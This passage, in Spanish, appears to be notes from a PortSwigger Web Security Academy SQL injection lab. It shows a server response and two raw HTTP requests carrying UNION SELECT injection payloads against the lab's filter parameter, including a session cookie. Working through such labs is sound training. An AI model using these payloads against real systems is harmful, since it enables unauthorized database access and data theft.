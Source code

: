 Retornando nulos todo funciona:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3943

```

Sin embargo, al intentar retornar numeros en cualquiera de los 2 campos se obtiene un error:

```
GET /filter?category='+UNION+SELECT+2,NULL+FROM+dual-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

o tambien esta peticion:

```
GET /filter?category='+UNION+SELECT+NULL,2+FROM+dual-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
